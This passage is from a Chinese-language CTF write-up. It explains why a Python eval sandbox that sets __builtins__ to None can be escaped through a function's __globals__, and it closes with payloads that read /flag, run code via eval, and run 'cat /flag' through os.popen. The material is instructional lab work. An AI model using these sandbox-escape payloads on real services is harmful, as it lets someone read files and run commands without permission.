 可见，会检查 `globals` 中是否已经包含了 `builtins`，如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为[官方文档中对 `eval` 函数的描述](https://docs.python.org/3.10/library/functions.html#eval)：

![官方文档](https://ns.openctf.net/assets/caicaibei_2.DF8ath1m.png)

因此，报错的原因便是，我们在 `inp` 中的 `eval` 并没有指定 `globals`，因此 Python 会将**当前调用处的上下文的 `globals`** 作为第二个参数，即使设定了第二个参数但没有指定 `__builtins__`，Python 也会自动注入**当前上下文**中的 `builtins`（也就是未指定则继承）。但当前上下文中的 `builtins` 是 `None`，因此会报错。

绕过也很简单，显式指定即可：

python

```
>>> inp='''f.__globals__['__builtins__'].eval('print(1)', { "__builtins__": f.__globals__['__builtins__'] })'''
>>> eval(inp, {"__builtins__": None, 'f': f})
```

可以看下面的结构树：

python

```
# In source code
globals()               <- f.__globals__
  ├─ __builtins__       <- f.__globals__['__builtins__']
  │  ├─ open            <- f.__globals__['__builtins__'].open
  │  ├─ eval            <- f.__globals__['__builtins__'].eval
  │  └─ ...
  ├─ f                  <- f.__globals__['f']
  └─ ...
    # In `eval(inp, {"__builtins__": None, "f": f})`
    globals()
      ├─ __builtins__   <- None
      ├─ f
      └─ ...
      # Though `f` was from top globals, and you can reach top builtins by `f.__globals__['__builtins__']`
      # the context is still at this level when you run `eval()` AKA `f.__globals__['__builtins__'].eval()`
      # so Python will inject the current builtins, which is `None`, into the `eval` context
```

#### Payload

```
通过读文件 f.__globals__['__builtins__'].open('/flag').read()

通过代码执行 f.__globals__['__builtins__'] .eval('open("/flag").read()', { "__builtins__": f.__globals__['__builtins__'] })

通过命令执行 f.__globals__['__builtins__'].__import__('os').popen('cat /flag').read()
```

### 这照片是你吗
